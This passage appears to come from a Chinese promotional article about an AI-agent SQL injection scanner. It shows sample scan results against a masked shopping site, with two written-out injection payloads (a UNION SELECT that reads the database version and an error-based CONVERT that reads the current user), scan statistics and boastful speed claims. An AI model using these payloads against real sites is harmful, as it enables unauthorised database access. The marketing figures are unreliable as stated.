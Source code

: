 位置: https://mall.xxxx.com/search.php  
  
参数: keyword  
  
风险等级: CRITICAL  
  
置信度: 99.2%  
  
验证POC: electronics' UNION SELECT 1,@@version,3,4--   
  
  
漏洞 #2:  
  
位置: https://mall.xxxx.com/product/123  
  
参数: id  
  
风险等级: HIGH  
  
置信度: 97.5%  
  
验证POC: 123 AND 1=CONVERT(int,(SELECT CURRENT_USER))  
  
  
扫描统计:  
  
耗时: 127秒  
  
请求数: 83  
  
误报过滤率: 98.7%  
  
**技术突破：通过MCP服务器分布式节点，单次扫描可同时检测300+个参数点，传统工具需要3小时的任务，DeepSeek智能体仅需2分钟完成！**  
  
**0****3**  
  
**新旧扫描器生死对决（更新版）**  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/nUHbLcGPue6NhhHmtbpCJicQPL2hcS7z5G5eic84UKSJUJffkKtewRVJx6rDKOquTD1wAgN82vqibSIrgonhiatPlA/640?wx_fmt=gif&from=appmsg "")  
  
  